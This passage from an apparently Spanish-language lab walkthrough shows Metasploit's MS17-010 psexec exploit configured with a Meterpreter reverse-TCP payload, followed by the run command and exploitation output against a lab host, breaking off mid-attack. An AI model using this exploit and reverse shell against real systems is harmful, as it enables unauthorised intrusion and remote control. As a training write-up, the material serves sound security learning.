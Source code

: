 ```perl
   RPORT                 445                                         sí       El puerto objetivo (TCP)
   SERVICE_DESCRIPTION                                            no        Descripción del servicio que se usará en el objetivo para la lista bonita
   SERVICE_DISPLAY_NAME                                           no        El nombre de visualización del servicio
   SERVICE_NAME                                                   no        El nombre del servicio
   SHARE                 ADMIN$                                      sí       El recurso compartido al que conectarse, puede ser un recurso compartido administrativo (ADMIN$,C$,...) o una carpeta de lectura/escritura normal
   SMBDomain             .                                           no        El dominio de Windows a usar para la autenticación
   SMBPass                                                        no        La contraseña para el nombre de usuario especificado
   SMBUser                                                        no        El nombre de usuario para autenticar como
```

#### Opciones del Payload (windows/meterpreter/reverse\_tcp)

```java
   Nombre      Configuración Actual  Requerido  Descripción
   ----      ---------------------  --------  -----------  
   EXITFUNC  thread                 sí       Técnica de salida (Aceptado: '', seh, thread, process, none)
   LHOST                      sí       La dirección de escucha (se puede especificar una interfaz)
   LPORT     4444             sí       El puerto de escucha
```

#### Objetivo del Exploit:

```lua
Id  Nombre
   --  ----
   0   Automático
```

Una vez que todo esté configurado y listo, podemos proceder a lanzar el ataque. Tenga en cuenta que el payload no se estableció aquí, ya que el predeterminado es suficiente para esta demostración.

### Ejecución del Exploit

```bash
msf6 exploit(windows/smb/ms17_010_psexec) > run
```

#### Salida de Ejecución

```less
[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
```